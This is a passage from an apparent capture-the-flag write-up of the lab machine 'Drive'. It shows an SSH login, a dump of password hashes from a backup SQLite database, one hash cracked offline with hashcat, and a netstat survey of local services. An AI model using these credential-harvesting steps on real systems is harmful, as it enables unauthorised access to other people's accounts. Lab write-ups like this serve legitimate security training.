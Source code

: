 <img src="/assets/img/htb/drive/Capture4.JPG" alt="block">

Let's login using these credentials `ssh martin@10.10.11.235` and congratzzz we got a shell as martin

## shell as tom
---

I started digging into the machine as martin by searching for simple privesc ways like sudo -l, crontab, etc but with no useful information.
After some digging into the machine i found the accessable path with useful information in `/var/www/backups`

```bash
martin@drive:/var/www/backups$ ls
1_Dec_db_backup.sqlite3.7z  1_Nov_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z  db.sqlite3
```

The 7z files needs password to be accessed but there's db.sqlite3 can be accessed by `sqlite3 db.sqlite`
after digging in it i reached this

```bash
sqlite> select username,password from accounts_customuser;
jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
tomHands|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
```

after cracking them offline using hashcat i got this creds `tomHands:sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316`
Couldn't use it to get shell as another user but let's keep it now

When we dig into network especially using `netstat -nltp` we will find this

```bash
martin@drive:/var/www/backups$ netstat -nltp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
```
